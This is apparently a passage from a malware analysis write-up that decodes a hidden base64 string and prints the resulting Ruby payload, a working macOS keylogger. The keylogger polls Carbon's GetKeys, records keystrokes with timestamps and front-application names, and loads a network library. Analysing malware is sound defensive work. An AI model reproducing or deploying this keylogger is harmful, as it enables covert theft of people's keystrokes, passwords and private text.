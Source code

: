 ## Down the Ruby hole

Un-`base64`-ing the string to find the ruby payload running:

```ruby

`pgrep -fx "ruby -W0"`.empty ? || exit

require 'net/http'
require 'Base64'
require 'dl/import'

module Carbon
  extend DL::Importer
  dlload '/System/Library/Frameworks/Carbon.framework/Carbon'
  extern 'unsigned long CopyProcessName(const ProcessSerialNumber*,void*)'
  extern 'void GetFrontProcess(ProcessSerialNumber*)'
  extern 'void GetKeys(void*)'
  extern 'unsigned char CFStringGetCString(void*,void*,int,int)'
end

p = DL::CPtr.malloc(16)
n = DL::CPtr.malloc(16)
ns = DL::CPtr.malloc(80)
km = DL::CPtr.malloc(16)

pd = Hash.new(false)

pa = ''
pt = 0
ps = 0
s = ''

while true do
  Kernel.sleep(0.05)

  Carbon.GetKeys(km)
  Carbon.GetFrontProcess(p.ref)
  Carbon.CopyProcessName(p.ref, n.ref)

  a = Carbon.CFStringGetCString(n, ns, 80, 0x08000100) > 0 ? ns.to_s : '_'
  t = Time.now.to_i

  (0...128).each do |k |

    if (km.to_str[k >> 3].ord >> (k & 7)) & 1 > 0

      unless pd[k]
        pd[k] = true
        if a != pa
          s << "\n\n" + [t].pack("N") + a + "\n"
        else
          if t - pt > 6
            s << "\n\n" + [t].pack("N") + "\n"
          end
        end

        s << k.chr
        pt = t
        pa = a
      end

    else
      pd[k] = false
```